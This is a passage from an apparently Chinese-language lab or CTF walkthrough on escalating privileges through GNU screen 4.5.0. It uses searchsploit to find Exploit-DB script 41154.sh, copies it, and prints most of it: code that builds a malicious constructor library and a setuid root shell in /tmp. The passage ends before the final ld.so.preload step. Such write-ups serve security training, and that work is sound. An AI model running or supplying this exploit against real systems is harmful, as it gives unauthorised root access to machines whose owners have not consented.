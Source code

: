 <img src="https://img-blog.csdnimg.cn/5ce69d9d3a914e358f61d237def97a2e.png" alt="在这里插入图片描述">

>  
 接下来查找可用于screen 4.5.0的漏洞脚本文件 


#### 2.查找screen 4.5.0漏洞脚本文件

```
searchsploit screen 4.5.0

```

<img src="https://img-blog.csdnimg.cn/68cc75c5c39e447bbe094ada995b8067.png" alt="在这里插入图片描述">

>  
 我们发现有两个发现screen 4.5.0 存在本地特权提升的漏洞，我们利用第一个，将脚本复制到本目录下 


```
cp /usr/share/exploitdb/exploits/linux/local/41154.sh ./41154.sh

```

<img src="https://img-blog.csdnimg.cn/ad4e5c8462e44bba80841d0472975af8.png" alt="在这里插入图片描述">

#### 3.查看cat 41154.sh脚本文件

>  
 查看cat 41154.sh脚本文件 


```
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017)
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat &lt;&lt; EOF &gt; /tmp/libhax.c
#include &lt;stdio.h&gt;
#include &lt;sys/types.h&gt;
#include &lt;unistd.h&gt;
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat &lt;&lt; EOF &gt; /tmp/rootshell.c
#include &lt;stdio.h&gt;
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
```